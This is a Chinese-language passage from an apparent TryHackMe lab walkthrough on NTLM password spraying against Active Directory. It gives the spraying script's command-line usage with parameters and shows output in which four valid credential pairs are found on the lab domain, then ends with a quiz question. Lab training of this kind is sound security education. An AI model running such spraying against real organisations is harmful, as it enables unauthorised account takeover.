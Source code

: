 该函数将我们建议的密码和目标 URL 作为输入，并尝试使用文本文件中的每个用户名对 URL 进行身份验证。通过监控应用程序 HTTP 响应代码的差异，我们可以确定凭证对是否有效。如果凭证对有效，应用程序就会响应 200 HTTP（OK）代码。如果凭证对无效，应用程序将返回 401 HTTP（未授权）代码。

### 密码喷洒

我们可以使用以下命令运行该脚本：

```shell
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

我们为每个参数提供以下值：

- userfile - 包含我们用户名的文本文件 - “usernames.txt”
- fqdn - 与我们正在攻击的组织关联的完全限定域名 - “za.tryhackme.com”
- password - 我们要用于喷射攻击的密码 - “Changeme123”
- attackurl - 支持 Windows 身份验证的应用程序的 URL，如 `http://ntlmauth.za.tryhackme.com`

使用这些参数，我们应该从密码喷射攻击中获得一些有效的凭据对。

:::note 本地执行结果

```shell title="NTLM Password Spraying Attack"
$python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

:::

结合使用 OSINT 和 NetNTLM 密码喷射，我们现在拥有了第一个有效的凭据对，可用于进一步枚举 AD !

:::info Answer the questions below

使用 NTLM 的质询 - 响应身份验证机制的名称是什么？
